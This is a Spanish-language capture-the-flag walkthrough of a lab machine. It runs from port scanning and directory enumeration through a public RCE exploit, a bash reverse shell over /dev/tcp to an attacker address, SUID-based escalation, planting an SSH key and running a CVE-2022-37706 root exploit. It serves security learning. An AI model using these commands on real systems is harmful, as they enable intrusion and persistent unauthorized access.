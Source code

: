 ## Fase de reconocimiento

### Nmap

Realizo un escaneo con nmap para ver que servicios hay en la maquina victima.

`nmap -sV -p- 192.168.1.5`

![](Imagenes/Pasted%20image%2020250913190803.png)

Veo que hay un servicio ssh en el puerto 22 y un http en el 80, así que voy a utilizar gobuster para enumerar todas las rutas del servicio http

`gobuster dir -u http://192.168.1.5 -w ~/Escritorio/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,jpg`
`
![](Imagenes/Pasted%20image%2020250913201732.png)

Lo más interesante que hay es un /admin, /database aunque solo puedo acceder en el /admin así que voy a probar a acceder por ahí

![](Imagenes/Pasted%20image%2020250913201923.png)

En la página de admin veo que hay un titulo del sistema y un panel de login, investigo un poco en la página pero no encuentro nada que pueda hacer y decido buscar más información sobre el sistema Online Food Ordering System v2

![](Imagenes/Pasted%20image%2020250913202206.png)


Veo que existe una vulnerabilidad RCE

## Explotación de la vulnerabilidad

![](Imagenes/Pasted%20image%2020250913205556.png)
Utilizando searchsploit lo puedo encontrar

![](Imagenes/Pasted%20image%2020250913210009.png)
![](Imagenes/Pasted%20image%2020250913210028.png)

Voy a darle permisos y a usarlo

![](Imagenes/Pasted%20image%2020250914111808.png)

![](Imagenes/Pasted%20image%2020250914111735.png)

Ya tengo una shell remota con acceso a la maquina

## Escalada de privilegios

### Mejorar la shell
Como la terminal que tengo ahora es muy limitada mejor creo una reverse shell

En la maquina atacante ejecuto

`nc -lnvp 1234`

![](Imagenes/Pasted%20image%2020250914114014.png)

En la maquina víctima ejecuto: `/bin/bash -c "bash -i >& /dev/tcp/192.168.1.6/1234 0>&1"`

![](Imagenes/Pasted%20image%2020250914113937.png)

I me llega la conexión a mi maquina

![](Imagenes/Pasted%20image%2020250914114036.png)

ahora puedo mejorar mi shell y seguir escalando

`script /dev/null -c bash`
`Cntrl + z`
`stty raw -echo; fg`
`reset xterm`
`export TERM=xterm`

### Escalada
Ejecuto `sudo -l` para ver que puedo hacer con este usuario

![](Imagenes/Pasted%20image%2020250914114515.png)
Me pide la contraseña así que no puedo usarlo

Ejecuto `find / -perm -u=s -type f 2>/dev/null` para ver los binarios

![](Imagenes/Pasted%20image%2020250914114900.png)
Y revisando con la página gtfobins encuentro que el binario /usr/bin/bsd-csh me puede servir para la escalada 

![](Imagenes/Pasted%20image%2020250914115742.png)
si ejecuto csh -b me permite crear una shell con el usuario aelis

![](Imagenes/Pasted%20image%2020250914120952.png)

Ahora puedo intentar copiar mi clave ssh para poder tener una shell mejor con este usuario

Creo una nueva clave:

`ssh-keygen -t ed25519`

Y la guardo en .ssh/authorized_keys en la maquina víctima:

`echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBnpGk9T8aEZWXQq57Z+GGAC5H9DXp5i/EgpkV/l0U0R kali@kali" > authorized_keys`

Ahora solo queda connectarse con ssh:

`ssh aelis@192.168.1.5 -i id_rsa`

![](Imagenes/Pasted%20image%2020250914124437.png)

Voy a intentar buscar más información sobre los binarios que tengo disponibles para ver si puedo utilizar alguno

Parece que con el binario enlightenment_ckpasswd existe un exploit para hacer escalada a root

![](Imagenes/Pasted%20image%2020250914125038.png)

Clono el repositorio en mi maquina y lo paso por scp

`git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git`

`scp -r CVE-2022-37706-LPE-exploit aelis@192.168.1.5:/home/aelis`

![](Imagenes/Pasted%20image%2020250914131738.png)

Le doy permisos al script y lo ejecuto

![](Imagenes/Pasted%20image%2020250914131816.png)

Ahora que ya tengo root solo queda obtener las flags